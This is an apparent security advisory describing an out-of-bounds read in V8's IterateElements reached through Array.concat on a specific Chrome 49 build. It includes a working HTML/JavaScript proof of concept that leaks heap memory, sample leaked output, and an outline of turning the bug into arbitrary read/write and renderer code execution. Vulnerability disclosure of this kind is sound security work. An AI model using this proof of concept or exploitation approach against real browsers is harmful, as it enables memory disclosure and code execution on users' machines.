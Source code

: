 
I. Vulnerability

p.s. The line numbers I mentioned below are referred to this version of v8 (https://chromium.googlesource.com/v8/v8.git/+/163a909154febf5498ee60efe0f4aab09be21515/)

The vulnerability lies in function IterateElements (src/builtin.cc:997). The function is to iteratively visit elements of an array.

Let us take the visiting on an array containing fast/fast smi elements as an example:

From line 1025 in src/builtin.cc (function IterateElements):
  switch (array->GetElementsKind()) {
    case FAST_SMI_ELEMENTS:
    case FAST_ELEMENTS:
    case FAST_HOLEY_SMI_ELEMENTS:
    case FAST_HOLEY_ELEMENTS: {
      // Run through the elements FixedArray and use HasElement and GetElement
      // to check the prototype for missing elements.
      Handle<FixedArray> elements(FixedArray::cast(array->elements()));
      int fast_length = static_cast<int>(length);  <-- fast_length keeps its value after entering the iteration below
      DCHECK(fast_length <= elements->length());
      for (int j = 0; j < fast_length; j++) {
        HandleScope loop_scope(isolate);
        Handle<Object> element_value(elements->get(j), isolate); <-- get the element with index j (leading to oob access)
        if (!element_value->IsTheHole()) {
          visitor->visit(j, element_value);
        } else {  <-- if it is a hole, it may go to its prototype for the value with index j
          Maybe<bool> maybe = JSReceiver::HasElement(array, j);
          if (!maybe.IsJust()) return false;
          if (maybe.FromJust()) {
            // Call GetElement on array, not its prototype, or getters won't
            // have the correct receiver.
            ASSIGN_RETURN_ON_EXCEPTION_VALUE(
                isolate, element_value, Object::GetElement(isolate, array, j),
                false);   <-- here we redefine the function to get the value in array's __proto__ with index j
                          <-- inside our redefinition function we make the length of the array shorter (< fast_length)
            visitor->visit(j, element_value);
          }
        }
      }
      break;
    }

We can see that the for loop iterates for fast_length times which is determined before entering the loop. However, if we keep a hole inside the array at index j and define the function to get the value in the array's __proto__ with index j, we have a chance to shorten the array in the middle of the loop (and force v8 to re-organize the v8 heap). After that, the loop keeps going on and elements->get(j) may lead to an OOB access. Note that in Chrome release version, elements->get(j) has no bound checking as follows.

src/objects-inl.h:2362
Object* FixedArray::get(int index) const {
  SLOW_DCHECK(index >= 0 && index < this->length()); <-- release version does nothing here ;)
  return READ_FIELD(this, kHeaderSize + index * kPointerSize);
}

Similarly, the same issue also lies in another switch case, visiting on an array containing fast double elements.

II. PoC

The function IterateElements is used in Array.concat() which can be called in javascript to trigger the vulnerability. A simple poc demonstrates an oob access as follows:

<html>
<script language="javascript">
function gc() {
  tmp = [];
  for (var i = 0; i < 0x100000; i++)
    tmp.push(new Uint8Array(10));
  tmp = null;
}

b = new Array(10);
b[0] = 0.1; <-- Note that b[1] is a hole!
b[2] = 2.1;
b[3] = 3.1;
b[4] = 4.1;
b[5] = 5.1;
b[6] = 6.1;
b[7] = 7.1;
b[8] = 8.1;
b[9] = 9.1;
b[10] = 10.1;

Object.defineProperty(b.__proto__, 1, { <-- define b.__proto__[1] to gain the control in the middle of the loop
	get: function () {
		b.length = 1; <-- shorten the array
		gc(); <-- shrink the memory
		return 1;
	},
	set: function(new_value){
        /* some business logic goes here */
        value = new_value
    }
});

c = b.concat();
for (var i = 0; i < c.length; i++)
{
    document.write(c[i]);
    document.write("<br>");
}
</script>
</html>

my result (it differs):
0.1
1
3.60739284464e-313
2.121995791e-314
0
8.487983164e-314
2.121995791e-314
2.121995791e-314
2.121995791e-314
1.9338903543223e-311
2.610054822887e-312

We get the leaked information on the v8 heap which does not originally belong to that fast double elem array. ;)

III. Conclusion

We can rely on this single vulnerability to achieve arbitrary code execution in the renderer process (even on x64). The main idea is that 1) Trigger the vulnerability on a fast double elem array, and craft memory layout to make heap addresses lie just after the victim array elements. These heap addresses will be oob accessed later as doubles and thus we got an info leak. 2) Trigger the vulnerability on a fast elem array, and craft memory layout to make controlled addresses lie just after the victim array elements. These crafted addresses will be oob accessed later and considered as v8 object addresses. We can control the data content pointed by these crafted addresses and thus own some ArrayBuffer objects (my choice) fully under our control. After that, arbitrary read/write is easily achieved and the code execution is then straightforward.

Refer to the exploit for details. (When an alert pops up, attach the windbg onto the renderer process and continue the execution, the process will trap into a break instruction int3 set by me).

Environment:
Chrome Stable Version 49.0.2623.87 (64-bit)
Windows 10 Version 1511 (10586.164)

Credit: Wen Xu, Tencent KeenLab
hotdog3645@gmail.com

